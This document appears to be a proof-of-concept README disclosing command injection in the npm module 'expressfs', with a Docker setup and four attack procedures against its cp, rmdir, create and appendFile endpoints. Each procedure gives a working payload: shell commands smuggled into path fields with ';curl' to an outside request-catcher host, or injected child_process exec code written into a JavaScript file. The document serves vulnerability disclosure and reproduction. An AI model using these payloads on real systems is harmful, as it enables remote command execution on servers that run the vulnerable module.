 # Command Injection @ expressfs
- module : expressfs
- version : All
- severity: high

# Installation

`docker-compose up --build`

# Lunch Attack On 'expressfs.cp'

1. open the browser and enter the following url
    `https://shieldfy.requestcatcher.com/`

      NOTE: we will use the previous 'requestcatcher' to catch the request that we will launch from the next step as command injection attack

2. launch this `POST` request from postman http://localhost:8000/expressfs.cp
    
     - BODY

        | KEY | VALUE |
        | --- | --- |
        | destination | /tmp/test;curl https://shieldfy.requestcatcher.com/hacked-expressfs.cp |

3. CHECK the requestcatcher tab in the browser you will see the result of command injection attack


# Lunch Attack On 'expressfs.rmdir'

1. open the browser and enter the following url
    `https://shieldfy.requestcatcher.com/`

      NOTE: we will use the previous 'requestcatcher' to catch the request that we will launch from the next step as command injection attack

2. launch this `POST` request from postman http://localhost:8000/expressfs.rmdir
    
    - BODY
    
      | KEY | VALUE |
      | --- | --- |
      | path | /tmp/test;curl https://shieldfy.requestcatcher.com/hacked-expressfs.rmdir |

3. CHECK the requestcatcher tab in the browser you will see the result of command injection attack


# Lunch Attack On 'expressfs.create'

1. open the browser and enter the following url
    `https://shieldfy.requestcatcher.com/`

      NOTE: we will use the previous 'requestcatcher' to catch the request that we will launch from the next step as command injection attack

2. launch this `POST` request from postman http://localhost:8000/expressfs.create
    
    - BODY
    
      | KEY | VALUE |
      | --- | --- |
      | path | ./eviil.js |
      | content | exec = require('child_process').exec;exec("curl https://shieldfy.requestcatcher.com/hacked-expressfs.create") |

3. CHECK the requestcatcher tab in the browser you will see the result of command injection attack


# Lunch Attack On 'expressfs.appendFile'

1. open the browser and enter the following url
    `https://shieldfy.requestcatcher.com/`

      NOTE: we will use the previous 'requestcatcher' to catch the request that we will launch from the next step as command injection attack

2. launch this `POST` request from postman http://localhost:8000/expressfs.appendFile
    
    - BODY
    
      | KEY | VALUE |
      | --- | --- |
      | path | ./eviil.js |
      | content | ; exec = require('child_process').exec;exec("curl https://shieldfy.requestcatcher.com/hacked-expressfs.appendFile") |

3. CHECK the requestcatcher tab in the browser you will see the result of command injection attack
    


